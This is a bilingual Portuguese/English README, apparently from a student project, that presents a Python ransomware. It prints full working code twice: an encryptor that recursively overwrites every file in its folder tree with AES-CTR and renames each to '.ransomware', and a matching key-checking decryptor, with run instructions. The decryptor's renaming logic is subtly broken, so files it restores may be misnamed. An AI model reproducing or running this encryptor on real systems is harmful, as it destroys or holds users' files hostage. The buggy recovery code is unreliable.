

# Projeto em Python de um Ransomware (PT-BR)

### Funcionamento

- O intuito deste projeto é criar um Ransomware que criptografe arquivos presentes na pasta e nas subpastas do local onde o Malware está.

- Este Ransomware é dividido em dois executaveis, um deles terá a função de criptografar os arquivos e o outro terá o objetivo de descriptografa-los futuramente.

### Código de Criptografia

- O executavel abre todos os arquivos presentes na pasta e nas subpastas no local onde ele se encontra, verificando se já não estão criptografados ou se não são os próprios executaveis.

- Após abrir cada arquivo presente na pasta ele copia os dados e os criptografa, reescrevendo em seguida o arquivo. Ele também substitui a estenção do arquivo para ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- A chave de criptografia utilizada foi "secretencryptkey", essa chave será utilizada futuramente durante a descriptografia.

### Código de Descriptografia

- Para que o processo se inicie, o executavel exige que o usuário digite a mesma chave de criptografia que foi utilizada para criptografar os arquivos anteriormente. Se digitado corretamente, o processo se inicia, caso contrário, ele apenas retorna a mensagem "Wrong Key!" para o usuário.

- Após a chave de criptografia ser informada corretamente, o executável abre todos os arquivos presentes na pasta e nas subpastas no local onde o executavel se encontra, verificando não são os próprios executáveis e se contém a extensão ".ransomware". Com isso, apenas os arquivos que já haviam sido criptografados serão abertos.

- Para cada arquivo aberto, o executável copia dos dados, os descriptografa e reescreve o arquivo. Para finalizar, ele exclui a extensão ".ransomware". Fazendo com que o arquivo volte a seu estado original descriptografado.

```python
import os
import pyaes

secret = input("What the secret key? ")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Resultados

- Após executar o encrypt.py, através do comando ```python encrypt.py``` no terminal, todos os arquivos dentro da pasta e das subpastas onde o executável se encontra serão criptografados.

  

- Para descriptografar os arquivos novamente devemos executar o decrypt.py através do comando ```python decrypt.py``` no terminal. Após inserir corretamente a chave de criptografia ```secretencryptkey```, o executável irá descriptografar todos os arquivos anteriormente criptografados. Vemos que, caso a chave seja digitada incorretamente, o programa retorna uma mensagem dizendo que a chave está incorreta e aborta o processo de descriptografia.

  

- Vemos que a criptografia está funcionando corretamente.

  

### Considerações Finais

- Diferentemente de um Ransomware real, o desenvolvido neste projeto apenas criptografa os arquivos presentes na pasta onde os executaveis se encontram, logo, CUIDADO com os testes realizados fora de um local de testes apropriado.

- Este projeto ainda está em desenvolvimento e sendo atualizado.

# Ransomware Project in Python (EN-US)

### Functionality

- The purpose of this project is to create a Ransomware that encrypts files present in the folder and subfolders of the location where the Malware is located.

- This Ransomware is divided into two executables, one of which will have the function of encrypting the files and the other will have the purpose of decrypting them in the future.

### Encryption Code

- The executable opens all files present in the folder and subfolders in the location where it is located, checking whether they are not already encrypted or whether they are not the executables themselves.

- After opening each file in the folder, it copies the data and encrypts it and then rewrites the file. It also replaces the file extension with ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- The encryption key used was "secretencryptkey", this key will be used later during decryption.

### Decryption Code

- For the process to start, the executable requires the user to enter the same encryption key that was used to encrypt the files previously. If entered correctly, the process starts, otherwise, it simply returns the message "Wrong Key!" to the user.

- After the encryption key is entered correctly, the executable opens all files present in the folder and subfolders in the location where the executable is located, checking that they are not the executables themselves and that they contain the ".ransomware" extension. This means that only files that have already been encrypted will be opened.

- For each file opened, the executable copies the data, decrypts it, and rewrites the file. Finally, it deletes the ".ransomware" extension. This returns the file to its original decrypted state.

```python
import os
import pyaes

secret = input("What the secret key? ")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Results

- After running the encrypt.py, using the command ```python encrypt.py``` in the terminal, all files within the folder and subfolders where the executable is located will be encrypted.

  

- To decrypt the files again we must run decrypt.py using the command ```python decrypt.py``` in the terminal. After correctly entering the encryption key ```secretencryptkey```, the executable will decrypt all previously encrypted files. We see that, if the key is entered incorrectly, the program returns a message saying that the key is incorrect and aborts the decryption process.

  

- We can verify that encryption is working correctly.

  

### Final Considerations

- Unlike real Ransomware, the one developed in this project only encrypts the files present in the folder where the executables are located, therefore, BE CAREFUL with tests performed outside an appropriate testing location.

- This project is still under development and being updated.
